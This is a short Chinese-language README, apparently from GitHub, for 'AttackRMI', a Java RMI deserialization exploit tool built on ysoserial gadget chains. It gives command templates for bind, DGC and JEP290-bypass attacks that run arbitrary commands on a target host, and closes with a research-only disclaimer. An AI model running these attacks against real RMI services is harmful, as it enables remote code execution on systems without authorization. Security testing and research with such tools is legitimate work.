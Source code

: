 # AttackRMI

## 介绍

该项目参考 ysoserial 项目中 RMI 相关代码，对 RMI 利用实现回显，目前支持的链有`CommonsCollections2`、`CommonsCollections11`、`Jdk7u21`

bind 攻击：

```bash
java -jar AttackRMI.jar [payloadType] [ip] [port] "[command]"
```

DGC 攻击：

```bash
java -cp AttackRMI.jar exploit.JRMPClient [payloadType] [ip] [port] "[command]"
```

Bypass JEP290 利用方式：

```bash
java -cp AttackRMI.jar exploit.JRMPListener [payloadType] [localIp] [localPort] "[command]"
```

## 免责声明

本项目仅面向安全研究与学习，禁止任何非法用途

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果

除非您已充分阅读、完全理解并接受本协议，否则，请您不要使用本项目